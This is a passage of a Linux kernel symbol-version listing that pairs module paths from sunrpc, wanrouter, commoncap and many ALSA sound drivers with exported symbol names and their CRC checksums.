    net/sunrpc/sunrpc auth_domain_lookup 0xa74157e3
    net/sunrpc/sunrpc auth_domain_put 0xb7e2b4a5
    net/sunrpc/sunrpc auth_unix_add_addr 0xb8520a43
    net/sunrpc/sunrpc auth_unix_forget_old 0x758f9c49
    net/sunrpc/sunrpc auth_unix_lookup 0xd1d4e136
    net/sunrpc/sunrpc cache_check 0x48b3316c
    net/sunrpc/sunrpc cache_flush 0x71fa908a
    net/sunrpc/sunrpc cache_fresh 0xfd7046ed
    net/sunrpc/sunrpc cache_init 0xc244025c
    net/sunrpc/sunrpc cache_purge 0xbe9cfadd
    net/sunrpc/sunrpc cache_register 0x48c324ec
    net/sunrpc/sunrpc cache_unregister 0xd78507aa
    net/sunrpc/sunrpc nfs_debug 0xaf5bf6ef
    net/sunrpc/sunrpc nfsd_debug 0xbf9d1b96
    net/sunrpc/sunrpc nlm_debug 0x53445f68
    net/sunrpc/sunrpc put_rpccred 0x0529d984
    net/sunrpc/sunrpc qword_add 0xedcf6be4
    net/sunrpc/sunrpc qword_addhex 0xc8e96dea
    net/sunrpc/sunrpc qword_get 0xe97f4ce5
    net/sunrpc/sunrpc read_bytes_from_xdr_buf 0x5fe143e0
    net/sunrpc/sunrpc rpc_bind_new_program 0x1d4393a7
    net/sunrpc/sunrpc rpc_call_async 0xfe4ad58a
    net/sunrpc/sunrpc rpc_call_setup 0x4c5c5f79
    net/sunrpc/sunrpc rpc_call_sync 0xc2faa721
    net/sunrpc/sunrpc rpc_clnt_sigmask 0x92b56979
    net/sunrpc/sunrpc rpc_clnt_sigunmask 0x944cec1b
    net/sunrpc/sunrpc rpc_clone_client 0xb2363ed1
    net/sunrpc/sunrpc rpc_create_client 0xd51c4a0a
    net/sunrpc/sunrpc rpc_debug 0x31a89d59
    net/sunrpc/sunrpc rpc_delay 0x9589c331
    net/sunrpc/sunrpc rpc_destroy_client 0x497e432f
    net/sunrpc/sunrpc rpc_execute 0xfe409c54
    net/sunrpc/sunrpc rpc_init_task 0x66da8e92
    net/sunrpc/sunrpc rpc_init_wait_queue 0x916aaa11
    net/sunrpc/sunrpc rpc_killall_tasks 0xe8b9ea34
    net/sunrpc/sunrpc rpc_max_payload 0x76efce5b
    net/sunrpc/sunrpc rpc_mkpipe 0x67b6b40d
    net/sunrpc/sunrpc rpc_new_child 0xbe49ec2c
    net/sunrpc/sunrpc rpc_new_client 0x4b130799
    net/sunrpc/sunrpc rpc_new_task 0x05399273
    net/sunrpc/sunrpc rpc_proc_register 0xf7e53452
    net/sunrpc/sunrpc rpc_proc_unregister 0x5bd26000
    net/sunrpc/sunrpc rpc_queue_upcall 0x2eead630
    net/sunrpc/sunrpc rpc_release_client 0x00812566
    net/sunrpc/sunrpc rpc_release_task 0xbb40f5cf
    net/sunrpc/sunrpc rpc_restart_call 0x944de875
    net/sunrpc/sunrpc rpc_run_child 0xce7a8383
    net/sunrpc/sunrpc rpc_setbufsize 0x3715c334
    net/sunrpc/sunrpc rpc_shutdown_client 0xb5931e78
    net/sunrpc/sunrpc rpc_sleep_on 0xb926aef3
    net/sunrpc/sunrpc rpc_unlink 0x9296bec2
    net/sunrpc/sunrpc rpc_wake_up 0x6d71e3af
    net/sunrpc/sunrpc rpc_wake_up_next 0x6ede58c7
    net/sunrpc/sunrpc rpc_wake_up_status 0xa5509e00
    net/sunrpc/sunrpc rpc_wake_up_task 0xdcc002fd
    net/sunrpc/sunrpc rpcauth_create 0x0cf6a52d
    net/sunrpc/sunrpc rpcauth_free_credcache 0xb4808cc1
    net/sunrpc/sunrpc rpcauth_init_credcache 0x3f83ba36
    net/sunrpc/sunrpc rpcauth_lookup_credcache 0x8d7f1b03
    net/sunrpc/sunrpc rpcauth_lookupcred 0x9db59dee
    net/sunrpc/sunrpc rpcauth_register 0xe0668a39
    net/sunrpc/sunrpc rpcauth_unregister 0xb7e9f5e7
    net/sunrpc/sunrpc rpciod_down 0xbabf0f35
    net/sunrpc/sunrpc rpciod_up 0x375492a4
    net/sunrpc/sunrpc svc_auth_register 0x4055dc67
    net/sunrpc/sunrpc svc_auth_unregister 0x0f668ba9
    net/sunrpc/sunrpc svc_authenticate 0x88eab595
    net/sunrpc/sunrpc svc_create 0xab2e8704
    net/sunrpc/sunrpc svc_create_thread 0x4cea33b7
    net/sunrpc/sunrpc svc_destroy 0xbd9e3fea
    net/sunrpc/sunrpc svc_drop 0x8ef920b8
    net/sunrpc/sunrpc svc_exit_thread 0x208ea72e
    net/sunrpc/sunrpc svc_makesock 0xb3f4c61a
    net/sunrpc/sunrpc svc_proc_register 0xdc60a1d4
    net/sunrpc/sunrpc svc_proc_unregister 0x12e280e3
    net/sunrpc/sunrpc svc_process 0xc1f4a3f1
    net/sunrpc/sunrpc svc_recv 0x0d8802b7
    net/sunrpc/sunrpc svc_reserve 0xe2ab3488
    net/sunrpc/sunrpc svc_seq_show 0x290c3d44
    net/sunrpc/sunrpc svc_set_client 0xa11384ee
    net/sunrpc/sunrpc svc_wake_up 0xc5798bee
    net/sunrpc/sunrpc svcauth_unix_purge 0x6eea229d
    net/sunrpc/sunrpc unix_domain_find 0x96946e44
    net/sunrpc/sunrpc xdr_buf_from_iov 0x5a05493d
    net/sunrpc/sunrpc xdr_buf_read_netobj 0xee87d245
    net/sunrpc/sunrpc xdr_buf_subsegment 0xad185204
    net/sunrpc/sunrpc xdr_decode_array2 0x77f75bc0
    net/sunrpc/sunrpc xdr_decode_netobj 0x1be57115
    net/sunrpc/sunrpc xdr_decode_string 0x6755aa62
    net/sunrpc/sunrpc xdr_decode_string_inplace 0x7bd87272
    net/sunrpc/sunrpc xdr_decode_word 0xee5a57ea
    net/sunrpc/sunrpc xdr_encode_array2 0x6da22f15
    net/sunrpc/sunrpc xdr_encode_netobj 0x29c6f164
    net/sunrpc/sunrpc xdr_encode_opaque 0x0e9e79d5
    net/sunrpc/sunrpc xdr_encode_opaque_fixed 0x587d494b
    net/sunrpc/sunrpc xdr_encode_pages 0x777f38b3
    net/sunrpc/sunrpc xdr_encode_string 0xabc0fe0c
    net/sunrpc/sunrpc xdr_encode_word 0xc92ecf1b
    net/sunrpc/sunrpc xdr_init_decode 0x6e9f3829
    net/sunrpc/sunrpc xdr_init_encode 0x1e079580
    net/sunrpc/sunrpc xdr_inline_decode 0x0967e875
    net/sunrpc/sunrpc xdr_inline_pages 0xae9d0d58
    net/sunrpc/sunrpc xdr_read_pages 0x83bfe13f
    net/sunrpc/sunrpc xdr_reserve_space 0xe4e9d37a
    net/sunrpc/sunrpc xdr_shift_buf 0x2c968322
    net/sunrpc/sunrpc xdr_write_pages 0x1f61aa75
    net/sunrpc/sunrpc xprt_create_proto 0x1287dfa1
    net/sunrpc/sunrpc xprt_set_timeout 0xbce67dc0
    net/wanrouter/wanrouter lock_adapter_irq 0x8ea05364
    net/wanrouter/wanrouter register_wan_device 0xe7efab0d
    net/wanrouter/wanrouter unlock_adapter_irq 0x696688b7
    net/wanrouter/wanrouter unregister_wan_device 0x0ebe03d1
    net/wanrouter/wanrouter wanrouter_encapsulate 0x9b1dad5c
    net/wanrouter/wanrouter wanrouter_type_trans 0xe4aee81e
    security/commoncap cap_bprm_apply_creds 0xa21306d3
    security/commoncap cap_bprm_secureexec 0xc88dd9ea
    security/commoncap cap_bprm_set_security 0xeeb09540
    security/commoncap cap_capable 0x33b279f3
    security/commoncap cap_capget 0xbfb36d35
    security/commoncap cap_capset_check 0xc018e8a9
    security/commoncap cap_capset_set 0xbffff9c1
    security/commoncap cap_inode_removexattr 0xbe6efe7c
    security/commoncap cap_inode_setxattr 0xe6bee128
    security/commoncap cap_netlink_recv 0x25114759
    security/commoncap cap_netlink_send 0x7beaf41f
    security/commoncap cap_ptrace 0x51268e95
    security/commoncap cap_settime 0x819cc9ba
    security/commoncap cap_syslog 0xe1dd5368
    security/commoncap cap_task_post_setuid 0x372390b2
    security/commoncap cap_task_reparent_to_init 0x9312ebc4
    security/commoncap cap_vm_enough_memory 0xaf236a7b
    sound/core/oss/snd-mixer-oss snd_mixer_oss_ioctl_card 0x0e2b5d4d
    sound/core/seq/instr/snd-ainstr-fm snd_seq_fm_init 0xa759f38d
    sound/core/seq/instr/snd-ainstr-gf1 snd_seq_gf1_init 0x9da48ff9
    sound/core/seq/instr/snd-ainstr-iw snd_seq_iwffff_init 0x5d8aab91
    sound/core/seq/instr/snd-ainstr-simple snd_seq_simple_init 0x9596ac1c
    sound/core/seq/snd-seq snd_seq_create_kernel_client 0x25d29210
    sound/core/seq/snd-seq snd_seq_delete_kernel_client 0x6bb71038
    sound/core/seq/snd-seq snd_seq_dump_var_event 0xc2d760c8
    sound/core/seq/snd-seq snd_seq_event_port_attach 0xe45058df
    sound/core/seq/snd-seq snd_seq_event_port_detach 0x7b8699eb
    sound/core/seq/snd-seq snd_seq_expand_var_event 0x970a9fb0
    sound/core/seq/snd-seq snd_seq_kernel_client_ctl 0x1a724fcc
    sound/core/seq/snd-seq snd_seq_kernel_client_dispatch 0x02f65ee4
    sound/core/seq/snd-seq snd_seq_kernel_client_enqueue 0x4116c49d
    sound/core/seq/snd-seq snd_seq_kernel_client_enqueue_blocking 0x0f2a5bc0
    sound/core/seq/snd-seq snd_seq_kernel_client_write_poll 0x266d78ed
    sound/core/seq/snd-seq snd_seq_set_queue_tempo 0x5d9bfcb2
    sound/core/seq/snd-seq snd_use_lock_sync_helper 0x89947013
    sound/core/seq/snd-seq-device snd_seq_autoload_lock 0xb90668b2
    sound/core/seq/snd-seq-device snd_seq_autoload_unlock 0x3a57f235
    sound/core/seq/snd-seq-device snd_seq_device_load_drivers 0x6339b6d0
    sound/core/seq/snd-seq-device snd_seq_device_new 0x6fcf589d
    sound/core/seq/snd-seq-device snd_seq_device_register_driver 0x9b0eb805
    sound/core/seq/snd-seq-device snd_seq_device_unregister_driver 0xc622fb29
    sound/core/seq/snd-seq-instr snd_seq_instr_event 0x74f92120
    sound/core/seq/snd-seq-instr snd_seq_instr_find 0x28cd8b46
    sound/core/seq/snd-seq-instr snd_seq_instr_free_use 0x8b11a1fa
    sound/core/seq/snd-seq-instr snd_seq_instr_list_free 0x1b896855
    sound/core/seq/snd-seq-instr snd_seq_instr_list_free_cond 0xc049cdd9
    sound/core/seq/snd-seq-instr snd_seq_instr_list_new 0xbf028ef2
    sound/core/seq/snd-seq-midi-emul snd_midi_channel_alloc_set 0x7b6f0fa7
    sound/core/seq/snd-seq-midi-emul snd_midi_channel_free_set 0xcfb054f4
    sound/core/seq/snd-seq-midi-emul snd_midi_channel_set_clear 0x10121a16
    sound/core/seq/snd-seq-midi-emul snd_midi_process_event 0x789db613
    sound/core/seq/snd-seq-midi-event snd_midi_event_decode 0x20a6608e
    sound/core/seq/snd-seq-midi-event snd_midi_event_encode 0x7d7fce56
    sound/core/seq/snd-seq-midi-event snd_midi_event_encode_byte 0x5c9108a3
    sound/core/seq/snd-seq-midi-event snd_midi_event_free 0x2b68e19a
    sound/core/seq/snd-seq-midi-event snd_midi_event_new 0x27b4902e
    sound/core/seq/snd-seq-midi-event snd_midi_event_no_status 0xc4780079
    sound/core/seq/snd-seq-midi-event snd_midi_event_reset_decode 0x797b2662
    sound/core/seq/snd-seq-midi-event snd_midi_event_reset_encode 0x9d2936fd
    sound/core/seq/snd-seq-virmidi snd_virmidi_new 0xdfc53d58
    sound/core/snd copy_from_user_toio 0xce3ca308
    sound/core/snd copy_to_user_fromio 0x602c96f0
    sound/core/snd release_and_free_resource 0x2d9db01e
    sound/core/snd snd_card_disconnect 0xeca65456
    sound/core/snd snd_card_file_add 0xf7df1c05
    sound/core/snd snd_card_file_remove 0x22c396db
    sound/core/snd snd_card_free 0xad50c2e8
    sound/core/snd snd_card_free_in_thread 0x58a372d1
    sound/core/snd snd_card_new 0x2035c1f7
    sound/core/snd snd_card_pci_resume 0xe1264259
    sound/core/snd snd_card_pci_suspend 0x751ce31d
    sound/core/snd snd_card_proc_new 0xb1f01111
    sound/core/snd snd_card_register 0xcba4df63
    sound/core/snd snd_card_set_generic_dev 0x6b535e48
    sound/core/snd snd_card_set_generic_pm_callback 0x8685ac9d
    sound/core/snd snd_card_set_pm_callback 0x69eb4a3e
    sound/core/snd snd_cards 0x5465782b
    sound/core/snd snd_component_add 0xd3efecc3
    sound/core/snd snd_ctl_add 0x5808e57c
    sound/core/snd snd_ctl_elem_read 0x5ab713b6
    sound/core/snd snd_ctl_elem_write 0x4b605955
    sound/core/snd snd_ctl_find_id 0xd85c708e
    sound/core/snd snd_ctl_find_numid 0xb5e24beb
    sound/core/snd snd_ctl_free_one 0x80860a2c
    sound/core/snd snd_ctl_new 0xcdcf811a
    sound/core/snd snd_ctl_new1 0x86a11f52
    sound/core/snd snd_ctl_notify 0xd3100a43
    sound/core/snd snd_ctl_register_ioctl 0x6dee1a5b
    sound/core/snd snd_ctl_remove 0x2f4793a4
    sound/core/snd snd_ctl_remove_id 0xc3da0ef9
    sound/core/snd snd_ctl_rename_id 0xc84f7c22
    sound/core/snd snd_ctl_unregister_ioctl 0xa7393d07
    sound/core/snd snd_device_free 0xccae35f7
    sound/core/snd snd_device_new 0xe6c83740
    sound/core/snd snd_device_register 0x36634836
    sound/core/snd snd_dma_disable 0x70c15ac1
    sound/core/snd snd_dma_pointer 0x191e88cf
    sound/core/snd snd_dma_program 0x18e1683f
    sound/core/snd snd_ecards_limit 0x3971b4df
    sound/core/snd snd_info_create_card_entry 0x47d291c7
    sound/core/snd snd_info_create_module_entry 0x7f3056ab
    sound/core/snd snd_info_free_entry 0xd43b3029
    sound/core/snd snd_info_get_line 0x0a6fd27b
    sound/core/snd snd_info_get_str 0xb213fe8b
    sound/core/snd snd_info_register 0xdd3bc2a3
    sound/core/snd snd_info_unregister 0x2fd69fe9
    sound/core/snd snd_iprintf 0x2f0b152f
    sound/core/snd snd_major 0x8f595b11
    sound/core/snd snd_mixer_oss_notify_callback 0x72309b71
    sound/core/snd snd_oss_info_register 0x8df3789f
    sound/core/snd snd_power_wait 0x83f0cd0e
    sound/core/snd snd_register_device 0xb1dea101
    sound/core/snd snd_register_oss_device 0xd739d1a4
    sound/core/snd snd_request_card 0x4a3ea5c0
    sound/core/snd snd_seq_root 0x9cefd536
    sound/core/snd snd_unregister_device 0xd73dd2d4
    sound/core/snd snd_unregister_oss_device 0x5a4b443a
    sound/core/snd-hwdep snd_hwdep_new 0xcf6fb573
    sound/core/snd-page-alloc snd_dma_alloc_pages 0xf4b207fd
    sound/core/snd-page-alloc snd_dma_alloc_pages_fallback 0x8b85b742
    sound/core/snd-page-alloc snd_dma_free_pages 0xd6157b67
    sound/core/snd-page-alloc snd_dma_get_reserved_buf 0x824c467f
    sound/core/snd-page-alloc snd_dma_reserve_buf 0xf2bd2c45
    sound/core/snd-page-alloc snd_free_pages 0x3b91f3af
    sound/core/snd-page-alloc snd_malloc_pages 0xade88e76
    sound/core/snd-pcm _snd_pcm_hw_param_min 0xa3be0ddb
    sound/core/snd-pcm _snd_pcm_hw_param_set 0x43ab6d9f
    sound/core/snd-pcm _snd_pcm_hw_param_setempty 0xb661a635
    sound/core/snd-pcm _snd_pcm_hw_param_setinteger 0xfe98f3f6
    sound/core/snd-pcm _snd_pcm_hw_params_any 0x6667da40
    sound/core/snd-pcm snd_interval_list 0xdc76d1ad
    sound/core/snd-pcm snd_interval_ratnum 0x80408aa0
    sound/core/snd-pcm snd_interval_refine 0x1070ed29
    sound/core/snd-pcm snd_pcm_build_linear_format 0x0beab9b1
    sound/core/snd-pcm snd_pcm_devices 0xaa615ad1
    sound/core/snd-pcm snd_pcm_format_big_endian 0x93878ece
    sound/core/snd-pcm snd_pcm_format_linear 0x8733f967
    sound/core/snd-pcm snd_pcm_format_little_endian 0x8bbdc311
    sound/core/snd-pcm snd_pcm_format_name 0xedd5b5bd
    sound/core/snd-pcm snd_pcm_format_physical_width 0xa8edfa41
    sound/core/snd-pcm snd_pcm_format_set_silence 0xdf124602
    sound/core/snd-pcm snd_pcm_format_signed 0xe2c5f868
    sound/core/snd-pcm snd_pcm_format_silence_64 0xda29bc77
    sound/core/snd-pcm snd_pcm_format_size 0x6f3fba79
    sound/core/snd-pcm snd_pcm_format_unsigned 0x95a60aa5
    sound/core/snd-pcm snd_pcm_format_width 0x55eb2175
    sound/core/snd-pcm snd_pcm_hw_constraint_integer 0x5a457fc3
    sound/core/snd-pcm snd_pcm_hw_constraint_list 0xef807551
    sound/core/snd-pcm snd_pcm_hw_constraint_minmax 0x0d6a8066
    sound/core/snd-pcm snd_pcm_hw_constraint_msbits 0xf29c0fd1
    sound/core/snd-pcm snd_pcm_hw_constraint_pow2 0xa1671446
    sound/core/snd-pcm snd_pcm_hw_constraint_ratdens 0x72c3ea9a
    sound/core/snd-pcm snd_pcm_hw_constraint_ratnums 0x720c2b2e
    sound/core/snd-pcm snd_pcm_hw_constraint_step 0xc9a8d848
    sound/core/snd-pcm snd_pcm_hw_constraints_complete 0xa3e27f67
    sound/core/snd-pcm snd_pcm_hw_constraints_init 0x31dd2c2d
    sound/core/snd-pcm snd_pcm_hw_param_first 0xebaa949d
    sound/core/snd-pcm snd_pcm_hw_param_last 0x58c81a32
    sound/core/snd-pcm snd_pcm_hw_param_mask 0x1cd48067
    sound/core/snd-pcm snd_pcm_hw_param_near 0x8ca5767a
    sound/core/snd-pcm snd_pcm_hw_param_set 0x2382ed23
    sound/core/snd-pcm snd_pcm_hw_param_value_max 0x6d375137
    sound/core/snd-pcm snd_pcm_hw_param_value_min 0x132c8ec7
    sound/core/snd-pcm snd_pcm_hw_refine 0xa7f4b720
    sound/core/snd-pcm snd_pcm_hw_rule_add 0x062f7bfe
    sound/core/snd-pcm snd_pcm_kernel_capture_ioctl 0x98e2762c
    sound/core/snd-pcm snd_pcm_kernel_ioctl 0x0c0c06a7
    sound/core/snd-pcm snd_pcm_kernel_playback_ioctl 0x261744cf
    sound/core/snd-pcm snd_pcm_lib_buffer_bytes 0x7c9f7f5e
    sound/core/snd-pcm snd_pcm_lib_free_pages 0xa1b3a027
    sound/core/snd-pcm snd_pcm_lib_ioctl 0x8bcb56ce
    sound/core/snd-pcm snd_pcm_lib_malloc_pages 0xb4d650df
    sound/core/snd-pcm snd_pcm_lib_mmap_iomem 0x2cd28844
    sound/core/snd-pcm snd_pcm_lib_period_bytes 0xfb99fab4
    sound/core/snd-pcm snd_pcm_lib_preallocate_free_for_all 0x9d9cbc9a
    sound/core/snd-pcm snd_pcm_lib_preallocate_pages 0xd94a761d
    sound/core/snd-pcm snd_pcm_lib_preallocate_pages_for_all 0x7339de14
    sound/core/snd-pcm snd_pcm_lib_read 0xa56f6b1b
    sound/core/snd-pcm snd_pcm_lib_readv 0xa0e24367
    sound/core/snd-pcm snd_pcm_lib_write 0x86a70336
    sound/core/snd-pcm snd_pcm_lib_writev 0x2c049407
    sound/core/snd-pcm snd_pcm_limit_hw_rates 0x68f91a85
    sound/core/snd-pcm snd_pcm_link_rwlock 0xb47e2d3d
    sound/core/snd-pcm snd_pcm_mmap_data 0xa5837b09
    sound/core/snd-pcm snd_pcm_new 0x85ce33ac
    sound/core/snd-pcm snd_pcm_new_stream 0x5c22db72
    sound/core/snd-pcm snd_pcm_notify 0x026ade94
    sound/core/snd-pcm snd_pcm_open_substream 0xa07a3c87
    sound/core/snd-pcm snd_pcm_period_elapsed 0xbdaff9e4
    sound/core/snd-pcm snd_pcm_release_substream 0x89dffe5c
    sound/core/snd-pcm snd_pcm_set_ops 0x807be94c
    sound/core/snd-pcm snd_pcm_set_sync 0x6b91f744
    sound/core/snd-pcm snd_pcm_sgbuf_ops_page 0xf167cbb5
    sound/core/snd-pcm snd_pcm_stop 0x3951a8b7
    sound/core/snd-pcm snd_pcm_suspend 0x7b6a6372
    sound/core/snd-pcm snd_pcm_suspend_all 0x63a23222
    sound/core/snd-rawmidi snd_rawmidi_drain_input 0x625c3bc4
    sound/core/snd-rawmidi snd_rawmidi_drain_output 0x93f60170
    sound/core/snd-rawmidi snd_rawmidi_drop_output 0xa2e01391
    sound/core/snd-rawmidi snd_rawmidi_info 0xeeee6f0f
    sound/core/snd-rawmidi snd_rawmidi_info_select 0xa43061b2
    sound/core/snd-rawmidi snd_rawmidi_input_params 0xf57905bf
    sound/core/snd-rawmidi snd_rawmidi_kernel_open 0x9741ff9a
    sound/core/snd-rawmidi snd_rawmidi_kernel_read 0xcaa3de03
    sound/core/snd-rawmidi snd_rawmidi_kernel_release 0xf8350b2b
    sound/core/snd-rawmidi snd_rawmidi_kernel_write 0x526efe7e
    sound/core/snd-rawmidi snd_rawmidi_new 0x1f2dc555
    sound/core/snd-rawmidi snd_rawmidi_output_params 0x934decda
    sound/core/snd-rawmidi snd_rawmidi_receive 0x07e269c7
    sound/core/snd-rawmidi snd_rawmidi_set_ops 0x0e56ac45
    sound/core/snd-rawmidi snd_rawmidi_transmit 0xac395f53
    sound/core/snd-rawmidi snd_rawmidi_transmit_ack 0x5e3020be
    sound/core/snd-rawmidi snd_rawmidi_transmit_empty 0x83f9ea13
    sound/core/snd-rawmidi snd_rawmidi_transmit_peek 0x954c8e96
    sound/core/snd-timer snd_timer_close 0x3a4f1fe1
    sound/core/snd-timer snd_timer_continue 0x5e12348a
    sound/core/snd-timer snd_timer_global_free 0x59b8b783
    sound/core/snd-timer snd_timer_global_new 0x76ad6387
    sound/core/snd-timer snd_timer_global_register 0x50c375b3
    sound/core/snd-timer snd_timer_global_unregister 0x2b289f0f
    sound/core/snd-timer snd_timer_interrupt 0xe2a63cc8
    sound/core/snd-timer snd_timer_new 0xfa8f2027
    sound/core/snd-timer snd_timer_notify 0xbcb0bbf8
    sound/core/snd-timer snd_timer_open 0xb25eb3c7
    sound/core/snd-timer snd_timer_pause 0x984996a8
    sound/core/snd-timer snd_timer_resolution 0xa872f569
    sound/core/snd-timer snd_timer_start 0x4cf53f4a
    sound/core/snd-timer snd_timer_stop 0x54ea12d3
    sound/drivers/mpu401/snd-mpu401-uart snd_mpu401_uart_interrupt 0xe7ecaf45
    sound/drivers/mpu401/snd-mpu401-uart snd_mpu401_uart_new 0x55874d02
    sound/drivers/opl3/snd-opl3-lib snd_opl3_create 0x094002c4
    sound/drivers/opl3/snd-opl3-lib snd_opl3_hwdep_new 0x4bb94b54
    sound/drivers/opl3/snd-opl3-lib snd_opl3_init 0x8460fb52
    sound/drivers/opl3/snd-opl3-lib snd_opl3_interrupt 0xe5572fa7
    sound/drivers/opl3/snd-opl3-lib snd_opl3_new 0x24db35b1
    sound/drivers/opl3/snd-opl3-lib snd_opl3_regmap 0x05060a19
    sound/drivers/opl3/snd-opl3-lib snd_opl3_reset 0x9b19115a
    sound/drivers/opl3/snd-opl3-lib snd_opl3_timer_new 0xa694b038
    sound/drivers/opl4/snd-opl4-lib snd_opl4_create 0x14f1e99e
    sound/drivers/opl4/snd-opl4-lib snd_opl4_read 0xe0cc5a2f
    sound/drivers/opl4/snd-opl4-lib snd_opl4_read_memory 0x6796a0da
    sound/drivers/opl4/snd-opl4-lib snd_opl4_write 0x6c45da8b
    sound/drivers/opl4/snd-opl4-lib snd_opl4_write_memory 0xfcea6889
    sound/drivers/vx/snd-vx-lib snd_vx_check_reg_bit 0xfdc259bd
    sound/drivers/vx/snd-vx-lib snd_vx_create 0x9cfe9972
    sound/drivers/vx/snd-vx-lib snd_vx_delay 0x4692be9f
    sound/drivers/vx/snd-vx-lib snd_vx_dsp_boot 0x1fea093b
    sound/drivers/vx/snd-vx-lib snd_vx_dsp_load 0xcac75bd9
    sound/drivers/vx/snd-vx-lib snd_vx_free_firmware 0xbea59f2c
    sound/drivers/vx/snd-vx-lib snd_vx_irq_handler 0x895b5b98
    sound/drivers/vx/snd-vx-lib snd_vx_load_boot_image 0xf60e98d6
    sound/drivers/vx/snd-vx-lib snd_vx_setup_firmware 0x242dbcb4
    sound/i2c/other/snd-ak4114 snd_ak4114_build 0x94ed0ac4
    sound/i2c/other/snd-ak4114 snd_ak4114_check_rate_and_errors 0xd64246b5
    sound/i2c/other/snd-ak4114 snd_ak4114_create 0x51712071
    sound/i2c/other/snd-ak4114 snd_ak4114_external_rate 0xe32793bb
    sound/i2c/other/snd-ak4114 snd_ak4114_reg_write 0x52da288a
    sound/i2c/other/snd-ak4114 snd_ak4114_reinit 0xb7141865
    sound/i2c/other/snd-ak4117 snd_ak4117_build 0xb0752492
    sound/i2c/other/snd-ak4117 snd_ak4117_check_rate_and_errors 0x80b2f43a
    sound/i2c/other/snd-ak4117 snd_ak4117_create 0x409301bc
    sound/i2c/other/snd-ak4117 snd_ak4117_external_rate 0x6ac127d4
    sound/i2c/other/snd-ak4117 snd_ak4117_reg_write 0xc8406848
    sound/i2c/other/snd-ak4117 snd_ak4117_reinit 0x1f9dc2b1
    sound/i2c/other/snd-ak4xxx-adda snd_akm4xxx_build_controls 0x76f7fbc5
    sound/i2c/other/snd-ak4xxx-adda snd_akm4xxx_init 0x6eb26b04
    sound/i2c/other/snd-ak4xxx-adda snd_akm4xxx_reset 0xd84dfdca
    sound/i2c/other/snd-ak4xxx-adda snd_akm4xxx_write 0xcd17aa6c
    sound/i2c/other/snd-tea575x-tuner snd_tea575x_exit 0x2ffd321d
    sound/i2c/other/snd-tea575x-tuner snd_tea575x_init 0xeb38518e
    sound/i2c/snd-cs8427 snd_cs8427_create 0xe26984c4
    sound/i2c/snd-cs8427 snd_cs8427_iec958_active 0x8b4a8a2f
    sound/i2c/snd-cs8427 snd_cs8427_iec958_build 0x8cf5f19d
    sound/i2c/snd-cs8427 snd_cs8427_iec958_pcm 0x4e23d959
    sound/i2c/snd-cs8427 snd_cs8427_reg_write 0xb00df654
    sound/i2c/snd-cs8427 snd_cs8427_reset 0x559c83ca
    sound/i2c/snd-i2c snd_i2c_bus_create 0xe21d5462
    sound/i2c/snd-i2c snd_i2c_device_create 0xd30f803e
    sound/i2c/snd-i2c snd_i2c_device_free 0x6d204c9e
    sound/i2c/snd-i2c snd_i2c_probeaddr 0xbc442a31
    sound/i2c/snd-i2c snd_i2c_readbytes 0xe29c54b6
    sound/i2c/snd-i2c snd_i2c_sendbytes 0xd42bbf8d
    sound/i2c/snd-tea6330t snd_tea6330t_detect 0xcd3806b6
    sound/i2c/snd-tea6330t snd_tea6330t_update_mixer 0x6a346444
    sound/isa/ad1816a/snd-ad1816a-lib snd_ad1816a_create 0x73c0671e
    sound/isa/ad1816a/snd-ad1816a-lib snd_ad1816a_mixer 0x13cb2027
    sound/isa/ad1816a/snd-ad1816a-lib snd_ad1816a_pcm 0x2298b63a
    sound/isa/ad1848/snd-ad1848-lib snd_ad1848_add_ctl 0x7a605517
    sound/isa/ad1848/snd-ad1848-lib snd_ad1848_create 0xcbacfffb
    sound/isa/ad1848/snd-ad1848-lib snd_ad1848_get_pcm_ops 0x0593fa80
    sound/isa/ad1848/snd-ad1848-lib snd_ad1848_mixer 0x6d932971
    sound/isa/ad1848/snd-ad1848-lib snd_ad1848_out 0x3b449344
    sound/isa/ad1848/snd-ad1848-lib snd_ad1848_pcm 0x5e5eb325
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_chip_id 0xd68c6ff2
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_create 0x5098a41f
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_get_double 0x51c0e3b5
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_get_single 0x93bad4bd
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_in 0xa483c394
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_info_double 0x2e7871cf
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_info_single 0x83b0de73
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_interrupt 0xa2de426c
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_mce_down 0xf6cc16ef
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_mce_up 0x021b53a5
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_mixer 0xf603e010
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_out 0x72019f0d
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_pcm 0xae5a80ea
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_put_double 0x50923fcd
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_put_single 0x92e808c5
    sound/isa/cs423x/snd-cs4231-lib snd_cs4231_timer 0x73d09297
    sound/isa/cs423x/snd-cs4231-lib snd_cs4236_ext_in 0x26774c4c
    sound/isa/cs423x/snd-cs4231-lib snd_cs4236_ext_out 0xb6bd7e3e
    sound/isa/cs423x/snd-cs4236-lib snd_cs4236_create 0xecbc5066
    sound/isa/cs423x/snd-cs4236-lib snd_cs4236_mixer 0x8909b76e
    sound/isa/cs423x/snd-cs4236-lib snd_cs4236_pcm 0x1b614f68
    sound/isa/es1688/snd-es1688-lib snd_es1688_create 0xec500bdc
    sound/isa/es1688/snd-es1688-lib snd_es1688_mixer 0x9c4a5647
    sound/isa/es1688/snd-es1688-lib snd_es1688_mixer_write 0xd7e99627
    sound/isa/es1688/snd-es1688-lib snd_es1688_pcm 0x704a3497
    sound/isa/gus/snd-gus-lib snd_gf1_alloc_voice 0x12da62f5
    sound/isa/gus/snd-gus-lib snd_gf1_atten_table 0xc43a5527
    sound/isa/gus/snd-gus-lib snd_gf1_ctrl_stop 0x4b3eb21c
    sound/isa/gus/snd-gus-lib snd_gf1_delay 0x14c4d4cb
    sound/isa/gus/snd-gus-lib snd_gf1_dram_addr 0x0545ee97
    sound/isa/gus/snd-gus-lib snd_gf1_free_voice 0xfc745e6f
    sound/isa/gus/snd-gus-lib snd_gf1_i_look16 0x00802fac
    sound/isa/gus/snd-gus-lib snd_gf1_i_look8 0xf69ac84b
